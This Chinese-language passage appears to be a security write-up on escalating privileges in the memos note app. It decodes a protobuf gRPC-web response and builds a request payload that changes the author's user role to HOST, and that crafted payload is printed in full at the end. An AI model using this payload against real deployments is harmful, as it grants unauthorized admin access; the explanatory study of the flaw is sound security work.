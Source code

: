 但是通过看源码，发现 role 并不是一个字符串，而是一个值可能是 1、2、3 的整数，分别表示 HOST、ADMIN、USER。我们需要在负载里表示整数的能力。

HAR 文件中还有用 base64 编码的该请求的响应，解码之后得到

```
\x00\x00\x00\x00+\n\x07users/2\x10\x02\x18\x03"\x04qwer2\x04asdfP\x01Z\x06\x08\xbb\xa2\xd3\xb8\x06b\x06\x08\xfe\xa2\xd3\xb8\x06\x80\x00\x00\x00\x10grpc-status: 0\r\n
```

其中 `\xyy=\u00yy` 是一个字节的不同表示，下面就混用了。

根据[源码](https://github.com/usememos/memos/blob/main/proto/gen/api/v1/user_service.pb.go#L80)，这表示如下结构体
```go
type User struct {
	state         protoimpl.MessageState
	sizeCache     protoimpl.SizeCache
	unknownFields protoimpl.UnknownFields

	// The name of the user.
	// Format: users/{id}
	Name        string
	// The system generated uid of the user.
	Id          int32                  
	Role        User_Role              
	Username    string                 
	Email       string                 
	Nickname    string                 
	AvatarUrl   string                 
	Description string                 
	Password    string                 
	RowStatus   RowStatus              
	CreateTime  *timestamppb.Timestamp 
	UpdateTime  *timestamppb.Timestamp 
}
```

那么结合我们上面推测的结构，和结构体的顺序，猜测响应的前半应该如下结构
```
\x00\x00\x00\x00    # 前缀
+                   # 表长度
\n \x07 users/2     # Name
\x10 \x02           # Id
\x18 \x03           # Role
" \x04 qwer         # Username
2 \x04 asdf         # Nickname
# 下略
```
跳过了email是因为我没设置。正好我的 Id 是2， 我的 Role 是 3 (表示 User)。因此我们可以用 `\x18\x01` (\x01 表示 HOST) 来代替请求负载中的 `2 \u0004 asdf`，用 `\u0004 role` 代替请求负载中的 `\bnickname`，同时按需调整表示长度的字节，得到负载
```
"\u0000\u0000\u0000\u0000\u0025\n\u0011\n\u0007users/2\u0022\u0004qwer\u0018\u0001\u0012\u0010\n\busername\n\u0004role"
```
